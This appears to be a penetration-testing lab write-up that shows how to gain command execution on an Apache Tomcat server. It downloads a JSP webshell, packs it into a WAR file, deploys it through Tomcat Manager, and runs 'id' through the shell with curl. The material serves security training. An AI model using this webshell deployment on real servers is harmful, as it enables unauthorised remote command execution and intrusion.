 A WAR file can be created using `zip`. A [JSP webshell](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive:

{% code overflow="wrap" %}
```shell
# Download a webshell
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
# Archive the webshell along with the WAR file
$ zip -r backup.war cmd.jsp 

  adding: cmd.jsp (deflated 81%)
```
{% endcode %}

Click on `Browse` > select the archive > `Deploy`:

![](../../../.gitbook/assets/tomcat_war_2.png)

If we click on `backup`, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.inlanefreight.local:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server:

```shell
$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

{% hint style="warning" %}
**Clean Up**: go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application. This will remove the uploaded WAR archive and the directory associated with the application.
{% endhint %}
